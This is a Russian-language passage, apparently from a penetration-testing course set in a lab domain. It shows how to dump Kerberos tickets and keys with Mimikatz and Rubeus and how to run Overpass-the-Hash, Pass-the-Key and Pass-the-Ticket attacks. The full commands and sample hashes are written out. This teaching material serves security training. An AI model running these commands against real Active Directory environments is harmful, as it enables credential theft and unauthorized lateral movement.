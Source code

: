 
#### Mimikatz - экспорт билетов

```cmd-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export
```

Билеты, которые заканчиваются на `$`соответствуют учетной записи компьютера, которому требуется билет для взаимодействия с Active Directory. Билеты пользователя содержат имя пользователя, за которым следует `@`который разделяет имя службы и домен, например: `[randomvalue]-username@service-domain.local.kirbi`.

**Примечание.** Если вы выбираете билет с сервисом krbtgt, он соответствует TGT этой учетной записи.

#### Rubeus - экспорт билетов
```cmd-session
c:\tools> Rubeus.exe dump /nowrap
```

#### Mimikatz — извлечение ключей Kerberos

```cmd-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::ekeys
```

Теперь, когда у нас есть доступ к `AES256_HMAC`и `RC4_HMAC`ключей, мы можем выполнить атаку OverPass the Hash или Pass the Key, используя `Mimikatz`и `Rubeus`.

#### Mimikatz - передать ключ или передать хэш
```cmd-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
Это создаст новый `cmd.exe`окно, которое мы можем использовать для запроса доступа к любой службе, которую мы хотим, в контексте целевого пользователя.

Чтобы подделать билет, используя `Rubeus`, мы можем использовать модуль `asktgt`с именем пользователя, доменом и хешем, которые могут быть `/rc4`, `/aes128`, `/aes256`, или `/des`. В следующем примере мы используем хэш aes256 из информации, которую мы собираем с помощью Mimikatz. `sekurlsa::ekeys`.

#### Rubeus — передать ключ или передать хэш
```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
## Пройти билет (PtT)

Теперь, когда у нас есть несколько билетов Kerberos, мы можем использовать их для бокового перемещения в среде.

С `Rubeus`мы выполнили атаку OverPass the Hash и получили билет в формате base64. Вместо этого мы могли бы использовать флаг `/ptt`для отправки билета (TGT или TGS) в текущий сеанс входа в систему.

#### Рубеус передай билет 
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

Обратите внимание, что теперь он отображает `Ticket successfully imported!`.

Другой способ — импортировать тикет в текущую сессию с помощью `.kirbi`файл с диска.

Давайте воспользуемся билетом, экспортированным из Mimikatz, и импортируем его с помощью Pass the Ticket.

#### Рубеус - Пройди билет
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```